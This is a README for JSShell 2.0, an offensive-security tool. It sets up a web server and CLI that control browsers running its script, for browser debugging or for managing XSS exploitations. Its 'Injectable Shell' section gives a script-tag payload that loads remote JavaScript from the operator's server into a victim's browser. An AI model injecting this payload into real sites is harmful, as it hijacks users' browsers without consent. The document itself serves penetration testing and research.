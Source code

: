 # JSShell 2.0

[![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)
[![Generic badge](https://img.shields.io/badge/docker-friendly-blue.svg)](https://shields.io/)
[![Generic badge](https://img.shields.io/badge/python-3.6+-green.svg)](https://shields.io/)

An interactive multi-user web based javascript shell. It was initially created in order to debug remote 
esoteric browsers during experiments and research. This tool can be easily attached to XSS (Cross Site Scripting)
payload to achieve browser remote code execution (similar to the BeeF framework).

Version 2.0 is created entirely from scratch, introducing new exciting features, stability and maintainability.

###### Version: 2.0

## Author
[Daniel Abeles](https://twitter.com/Daniel_Abeles).

### Shell Video
[![asciicast](https://asciinema.org/a/217167.png)](https://asciinema.org/a/217167)

## Features
* Multi client support
* Cyclic DOM objects support
* Pre flight scripts
* Command Queue & Context
* Extensible with Plugins
* Injectable via `<script>` tags
* Dumping command output to file
* Shell pagination


## Installation & Setup

### Config File
In the `resources` directory, update the `config.json` file with your desired configuration:
* Database host - if running with the `docker` deployment method, choose the database host as `db` 
(which is the internal host name).
* Return URL - the URL which the requests will follow. The `shell.js` file does some AJAX calls to register and poll
for new commands. Usually it will be `http://{YOUR_SERVER_IP}:{PORT}`.
* Startup script - a script that runs automatically when the JSShell CLI client is spawned.
* It is also possible to point at a remote database if desired.


### Docker
This new version instructed installing and running via `docker` and `docker-compose`. Now, to install and run the entire
JSShell framework, simply run:

```bash
$ ./start_docker_shell.sh
```

This will:
- Start and create the database in the background
- Start the web API server that handles incoming connections in the background
- Spawn a new instance of the `JSShell` command line interface container

### Regular
If you still want to use the old fashion method of installing, simply make sure you have a `MongoDB`
database up and running, and update the `config.json` file residing in the `resources` directory.

I recommend using a virtual environment with `pyenv`:
```bash
$ pyenv virtualenv -p python3.6 venv
$ pyenv activate venv
```

Or using `virtualenv`:

```bash 
$ virtualenv -p python3.6 venv
$ source venv/bin/activate
```

Then, install the requirements:
```bash
$ pip install -r requirements.txt
```

## Running
If you used the `docker` method, there's no need to run the following procedure.

### Web Server
Otherwise, once we have the database setup, we need to start the web API server. To do, run:
```bash
$ python manage.py web
```

This will create and run a web server that listens to incoming connections and serves our JSShell code. 

### Shell
Now to start the JSShell CLI, run the same script but now with the `shell` flag:
```bash
$ python manage.py shell
```

## Usage
After setup and running the required components, enter the `help` command to see the available commands:
```
     ╦╔═╗┌─┐┬ ┬┌─┐┬  ┬  
     ║╚═╗└─┐├─┤├┤ │  │  
    ╚╝╚═╝└─┘┴ ┴└─┘┴─┘┴─┘ 2.0     
        by @Daniel_Abeles
    
>> help

Documented commands (type help <topic>):

General Commands
--------------------------------------------------------------------------------
edit                Edit a file in a text editor
help                List available commands or provide detailed help for a specific command
history             View, run, edit, save, or clear previously entered commands
ipy                 Enter an interactive IPython shell
py                  Invoke Python command or shell
quit                Exit this application

Shell Based Operations
--------------------------------------------------------------------------------
back                Un-select the current selected client
clients             List and control the clients that have registered to our system
commands            Show the executed commands on the selected client
dump                Dumps a command to the disk
execute             Execute commands on the selected client
select              Select a client as the current client

>> 
```

## Flow
JSShell supports 2 methods of operation:
1. Injectable Shell (similar to BeeF framework)
2. Hosted Shell (for debugging)

### Injectable Shell
Similar to other XSS control frameworks (like BeeF), JSShell is capable of managing successful XSS exploitations.
In example, if you can inject a `script` tag, inject the following resource to your payload, and a new client will 
appear in your console: 

`<script src="http://{YOUR_SERVER_IP}:{PORT}/content/js"></script>`

### Hosted Shell 
If you desire to debug exotic and esoteric browsers, you can simply navigate to `http://{YOUR_SERVER_IP}:{PORT}/` and
a new client will pop up into your JSShell CLI client. Now it is debuggable via our JSShell console.

## Credits
[Canop](https://github.com/Canop) for [JSON.prune](https://github.com/Canop/JSON.prune/)



###### use it at your own responsibility and risk.